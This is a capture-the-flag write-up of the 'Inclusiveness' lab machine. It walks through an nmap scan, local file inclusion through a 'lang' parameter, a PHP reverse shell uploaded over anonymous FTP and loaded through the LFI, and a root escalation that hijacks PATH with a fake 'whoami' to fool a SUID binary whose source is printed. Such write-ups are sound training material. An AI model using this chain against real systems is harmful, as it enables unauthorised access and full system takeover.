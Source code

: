 ```yaml
---
title: Inclusiveness
categories: [Proving Grounds, Play]
tags: [FTP, LFI, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  Inclusiveness Machine 🖥️
---
```



### Lets check the IP address ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled.png)

```bash
IP : 10.10.2.50
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Inclusiveness]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.50
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 21:15 IST
Nmap scan report for 10.0.2.50
Host is up (0.00068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 061ba39283a57a15bd406e0c8d98277b (RSA)
|   256 cb3883261a9fd35dd3fe9ba1d3bcab2c (ECDSA)
|_  256 6554fc2d12ace184783e0023fbe4c9ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:6F:A3:19 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%201.png)

Lets see the directory listing files —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%202.png)

Now lets check the `robots.txt` file ➡️

![image_1.png](/Vulnhub-Files/img/Inclusiveness/image_1.png)

Now lets look at this directory —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%203.png)

Lets check for english link which leads me for directory or files bruteforcing attack → `/etc/passwd` →

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%204.png)

Other than this I was unable to get any foothold into any internal directory files so I brute-force with LFI Injection payloads through burpsuite and I got this file —> `/etc/vsftpd.conf`

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%205.png)

Now I have also access with ftp so lets upload the reverse shell file in it —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%206.png)

Now I have uploaded the file in location /ftp/pub/shell.php lets load it and get my reverse shell →

URL —> `http://10.0.2.50/secret_information/?lang=/var/ftp/pub/shell.php`

In response to that I got this —>

![Untitled](/Vulnhub-Files/img/Inclusiveness/Untitled%207.png)

Now lets recon further ⤵️

```bash
www-data@inclusiveness:/home/tom$ ls -al
ls -al
total 100
drwxr-xr-x 15 tom  tom   4096 Feb  8  2020 .
drwxr-xr-x  3 root root  4096 Feb  8  2020 ..
-rw-------  1 tom  tom    684 Feb  8  2020 .ICEauthority
-rw-r--r--  1 tom  tom    220 Feb  8  2020 .bash_logout
-rw-r--r--  1 tom  tom   3526 Feb  8  2020 .bashrc
drwx------ 10 tom  tom   4096 Feb  8  2020 .cache
drwx------ 10 tom  tom   4096 Feb  8  2020 .config
drwx------  3 tom  tom   4096 Feb  8  2020 .gnupg
drwx------  3 tom  tom   4096 Feb  8  2020 .local
-rw-r--r--  1 tom  tom    807 Feb  8  2020 .profile
drwx------  2 tom  tom   4096 Feb  8  2020 .ssh
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Desktop
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Documents
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Downloads
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Music
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Pictures
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Public
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Templates
drwxr-xr-x  2 tom  tom   4096 Feb  8  2020 Videos
-rwsr-xr-x  1 root root 16976 Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom    448 Feb  8  2020 rootshell.c
www-data@inclusiveness:/home/tom$
```
{: .nolineno}
{: .nolineno}

Lets check the `rootshell` file which executes as root and I have access to read `rootshell.c` file →

```bash
www-data@inclusiveness:/home/tom$ cat rootshell.c
cat rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

www-data@inclusiveness:/home/tom$
```
{: .nolineno}
{: .nolineno}

Now In this program whoami should be equal to tom to get our shell so I have to make whoami which says echo’s tom and it will execute accordingly →

```bash
www-data@inclusiveness:/home/tom$ cd /tmp
cd /tmp
www-data@inclusiveness:/tmp$ echo 'echo "tom"' >whoami
echo 'echo "tom"' >whoami
www-data@inclusiveness:/tmp$ cat whoami
cat whoami
echo "tom"
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ /home/tom/rootshell
/home/tom/rootshell
checking if you are tom...
you are: tom

access granted.
# /bin/bash -i
/bin/bash -i
root@inclusiveness:/tmp# whoami
whoami
tom
root@inclusiveness:/tmp# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
root@inclusiveness:/tmp# whoami
whoami
root
root@inclusiveness:/tmp# cd ~
cd ~
root@inclusiveness:/root# ls -al
ls -al
total 64
drwx------  5 root root  4096 Feb  8  2020 .
drwxr-xr-x 19 root root  4096 Feb  8  2020 ..
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
drwx------  2 root root  4096 Feb  8  2020 .cache
-rw-------  1 root root    34 Feb  8  2020 .lesshst
drwxr-xr-x  3 root root  4096 Feb  8  2020 .local
-rw-r--r--  1 root root   148 Aug 18  2015 .profile
drwxr-xr-x  2 root root  4096 Feb  8  2020 .vim
-rw-------  1 root root 21141 Feb  8  2020 .viminfo
-rw-r--r--  1 root root    21 Feb  8  2020 .vimrc
-rw-r--r--  1 root root   141 Feb  8  2020 flag.txt
root@inclusiveness:/root# cat flag.txt
cat flag.txt
|\---------------\
||                |
|| UQ Cyber Squad |       
||                |
|\~~~~~~~~~~~~~~~\
|
|
|
|
o

flag{omg_you_did_it_YAY}
root@inclusiveness:/root#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }